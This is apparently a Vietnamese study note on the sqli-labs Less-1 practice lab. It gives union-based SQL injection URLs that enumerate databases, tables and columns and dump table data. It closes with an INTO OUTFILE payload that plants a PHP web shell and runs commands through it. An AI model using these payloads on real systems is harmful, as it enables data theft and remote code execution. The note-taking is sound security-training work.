


# Một số việc làm với được lesson-1.md



Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'
```


2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```


Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```


- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```


- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```


Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```



- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```


-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```


- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```


- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```


Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```


- INTO OUTFILE
- Điều kiện để có thể làm được là phải có một thư mục được cấp quyền thực thi 
```
[root@centos7 ~]# cd /var/www/html/
[root@centos7 html]# mkdir test
[root@centos7 html]# chmod 777 test/
```

```
192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2, "<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/c.php' --+
```


- thực hiện remote code 
```
192.168.80.225/tests/c.php?cmd=id
```


Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 